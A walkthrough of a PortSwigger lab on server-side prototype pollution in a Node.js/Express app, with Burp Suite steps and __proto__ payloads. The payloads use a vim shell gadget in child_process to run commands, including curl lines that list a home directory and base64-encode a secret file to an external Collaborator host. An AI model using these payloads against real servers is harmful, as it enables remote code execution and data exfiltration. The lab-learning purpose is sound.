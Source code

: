 # Exfiltrating sensitive data via server-side prototype pollution

[This lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-exfiltrating-sensitive-data-via-server-side-prototype-pollution) is built on `Node.js` and the `Express` framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that it is possible to inject arbitrary system commands that are executed on the server.

## Reproduction and PoCs

### Study the address change feature

1. Log in with `wiener:peter` and visit the account page. Submit the form for updating your billing and delivery address.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the `POST /my-account/change-address` request.
3. When submitting the form, the data from the fields is sent to the server as JSON. The server responds with a JSON object that appears to represent your user. This has been updated to reflect the new address information.
4. Send the request to Burp Repeater.

### Identify a prototype pollution source

1. In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a json spaces property.

```text
"__proto__": {
    "json spaces":10
}
```

2. Send the request.
3. In the Response panel, switch to the Raw tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

### Probe for remote code execution

1. Go to the admin panel and observe that there's a button for running maintenance jobs.
2. Click the button and observe that this triggers background tasks that cleanup the database and filesystem. This is a classic example of the kind of functionality that may spawn node child processes.
3. Try polluting the prototype with a set of malicious properties that control the options passed to the `child_process.execSync()` method. The injected command should trigger an interaction with the public Burp Collaborator server:

```text
"__proto__": {
    "shell":"vim",
    "input":":! curl https://uywkxrh5o7yl6c9iauwoewp6xx3orff4.oastify.com\n"
}
```

4. Send the request.

![Prototype pollution](/_static/images/pp25.png)

5. In the browser, go to the admin panel and trigger the maintenance jobs. After a short delay, these fail to run.
6. In Burp, go to the Collaborator tab and poll for interactions. Observe that you have received several interactions. This confirms the remote code execution.

![Prototype pollution](/_static/images/pp26.png)

### Leak the hidden file name

1. In Burp Repeater, modify the payload in your malicious input parameter to a command that leaks the contents of Carlos's home directory to the public Burp Collaborator server. The following is one approach for doing this:

```text
```text
"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://uywkxrh5o7yl6c9iauwoewp6xx3orff4.oastify.com\n"
}
```
    
2. Send the request.

![Prototype pollution](/_static/images/pp27.png)

3. In the browser, go to the admin panel and trigger the maintenance jobs again.
4. Go to the Collaborator tab and poll for interactions.
5. Notice that you have received a new HTTP POST request with a Base64-encoded body.
6. Decode the contents of the body to reveal the names of two entries: `node_apps` and `secret`.

![Prototype pollution](/_static/images/pp28.png)

### Exfiltrate the contents of the secret file

1. In Burp Repeater, modify the payload in your malicious input parameter to a command that exfiltrates the contents of the file `/home/carlos/secret` to the public Burp Collaborator server. The following is one approach for doing this:

```text
"input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```

2. Send the request.
3. In the browser, go to the admin panel and trigger the maintenance jobs again.
4. Go to the Collaborator tab and poll for interactions.
5. Notice that you have received a new HTTP POST request with a Base64-encoded body.
6. Decode the contents of the body to reveal the secret.

![Prototype pollution](/_static/images/pp29.png)

7. In browser, go to the lab banner and click **Submit solution**. Enter the decoded secret to solve the lab.

![Prototype pollution](/_static/images/pp30.png)

## Exploitability

To solve the lab:

An attacker will need to already have escalated privileges, giving access to admin functionality; find a prototype pollution source that can be used to add arbitrary properties to the global `Object.prototype`; identify a gadget that can be used to inject and execute arbitrary system commands; trigger remote execution of a command that leaks the contents of Carlos's home directory (`/home/carlos`) to the public Burp Collaborator server; exfiltrate the contents of a secret file in this directory to the public Burp Collaborator server; and submit the secret obtained from the file using the button provided in the lab banner. 
